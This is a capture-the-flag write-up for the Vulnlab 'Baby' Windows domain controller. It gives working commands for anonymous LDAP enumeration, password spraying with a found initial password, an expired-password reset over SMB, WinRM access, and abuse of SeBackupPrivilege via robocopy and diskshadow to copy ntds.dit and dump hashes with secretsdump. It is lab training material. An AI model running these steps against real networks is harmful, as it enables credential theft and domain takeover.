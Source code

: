 ```yaml
---
title: Vulnlab - Baby
date: 2025-01-12 17:00:00 +/-TTTT
categories: [VulnLab]
tags: [smbpasswd, SeBackupPrivilege]     # TAG names should always be lowercase
---
```


![img-description](/assets/images/baby_slide.png)


    ➜  baby nxc smb 10.10.66.181
    SMB         10.10.66.181    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)

there is no Guests access and smth like that so lets do ldapsearch
### ldapsearch
    ➜  baby ldapsearch -x -b "dc=baby,dc=vl" -H ldap://10.10.66.181 > ldap_resul.txt

Now we can analyze it but its huge to read one of one so;

    ➜  baby cat ldapresult.txt | grep -i "password"
    badPasswordTime: 0
    memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
    memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl

    description: Set initial password to BabyStart123!
got password but there is no users list yet we alraedy know sAMAccountname inital with usernames,groups etc.

    ➜  baby cat ldapresult.txt | grep -i "sAMAccountname"

    sAMAccountName: dev
    sAMAccountName: Jacqueline.Barnett
    sAMAccountName: Ashley.Webb
    sAMAccountName: Hugh.George
    sAMAccountName: Leonard.Dyer
    sAMAccountName: it
    sAMAccountName: Connor.Wilkinson
    sAMAccountName: Joseph.Hughes
    sAMAccountName: Kerry.Wilson
    sAMAccountName: Teresa.Bell
    sAMAccountName: Caroline.Robinson

for save it clearly.

    ➜  baby cat ldap-user.txt | awk '{print $2}'
    dev
    Jacqueline.Barnett
    Ashley.Webb
    Hugh.George
    Leonard.Dyer
    it
    Connor.Wilkinson
    Joseph.Hughes
    Kerry.Wilson
    Teresa.Bell
    Caroline.Robinson

    ➜  baby cat ldap-user.txt | awk '{print $2}' > users.txt
## STATUS_PASSWORD_MUST_CHANGE
    ➜  baby nxc smb BABYDC -u users.txt -p 'BabyStart123!' --continue-on-succes

    SMB         10.10.66.181    445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE

https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/

    ➜  baby python3 smbpasswd.py  'Caroline.Robinson:BabyStart123!@baby.vl' -newpass Password123!
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

    [!] Password is expired, trying to bind with a null session.
    [*] Password was changed successfully

    ➜  baby nxc smb BABYDC -u users.txt -p 'Password123!' --continue-on-succes

    SMB         10.10.66.181    445    BABYDC           [+] baby.vl\Caroline.Robinson:Password123!

we have also winrm-shell

    ➜  baby nxc winrm BABYDC -u Caroline.Robinson -p 'Password123!' --continue-on-succes
    WINRM       10.10.66.181    5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
    WINRM       10.10.66.181    5985   BABYDC           [+] baby.vl\Caroline.Robinson:Password123! (Pwn3d!)

## SeBackupPrivilege

    *Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /all

    SeBackupPrivilege             Back up files and directories  Enabled

### Here is fast root

    *Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b C:\Users\Administrator\Desktop .; cat root.txt

    ---

    VL{REDACTED}

### DUMP ntds.dit and system then crack admin hash;
    ➜  baby cat raj.dsh
    set context persistent nowriters
    add volume c: alias raj
    create
    expose %raj% z:

using unix2dos

    ➜  baby unix2dos raj.dsh
    unix2dos: converting file raj.dsh to DOS format...

and uploda it at C:\ProgramData

    *Evil-WinRM* PS C:\ProgramData> diskshadow /s raj.dsh

    *Evil-WinRM* PS C:\ProgramData> robocopy /b z:\windows\ntds . ntds.dit

download ntds.dit
download system

and 

    impacket-secretsdump -ntds ntds.dit -system system local

😉
